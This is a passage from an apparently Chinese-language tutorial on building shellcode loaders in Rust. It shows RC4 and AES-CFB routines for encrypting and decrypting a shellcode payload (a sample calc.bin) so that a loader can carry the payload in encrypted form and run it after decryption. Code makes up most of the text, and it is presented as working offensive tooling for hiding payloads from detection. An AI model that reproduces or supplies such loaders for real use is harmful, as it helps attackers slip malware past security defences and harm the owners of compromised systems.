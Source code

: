 ```plain

    base64::encode(&mut result)
}

fn dec(b64: &str, key: &str) -> Vec<u8> {
    let mut result = match base64::decode(b64) {
        Ok(result) => result,
        _ => "".as_bytes().to_vec(),
    };

    let mut rc4 = Rc4::new(key.as_bytes());

    let mut shellcode: Vec<u8> = repeat(0).take(result.len()).collect();
    rc4.process(&mut result[..], &mut shellcode);

    shellcode
}
```

### AES-CFB加密

Rust要实现AES加密与加密也需要引入依赖，在`Cargo.toml`文件中添加下面的依赖。

```plain
[dependencies]
aes="0.7.5"
hex="0.4.3"
block-modes="0.8.1"
hex-literal="0.3.3"
```

下面是实现AES-CFB加解密的代码，在加密的函数中最终返回的是Hex编码后的字符串，而解密函数最终返回的是Vec数组，同样是为了方便在shellcode loader中读取加密后的shellcode以及加载解密后的shellcode。

```plain
use aes::Aes128;
use block_modes::block_padding::Pkcs7;
use block_modes::{BlockMode, Cfb};
use hex::encode;
use hex_literal::hex;

type Aes128ECfb = Cfb<Aes128, Pkcs7>;

fn main() {
    let shellcode = include_bytes!("..\\calc.bin").as_slice();
    let key = "gWW8QklFyVIQfpDN";
    let iv = hex!("57504c385a78736f336b4946426a626f");

    println!("==128-bit AES CFB Mode==");
    println!("Key: {}", key);
    println!("iv: {}", encode(iv));

    let encrypted = enc(shellcode, key, iv);
    println!("\nEncrypted: {}", encrypted);

    let decrypted = dec(encrypted.as_str(), key, iv);
    println!("\nDecrypted: {:?}", decrypted);
}

fn enc(shellcode: &[u8], key: &str, iv: [u8; 16]) -> String {
    let key = key.as_bytes().to_vec();

    let cipher = Aes128ECfb::new_from_slices(key.as_slice(), iv.as_slice()).unwrap();

    let pos = shellcode.len();
```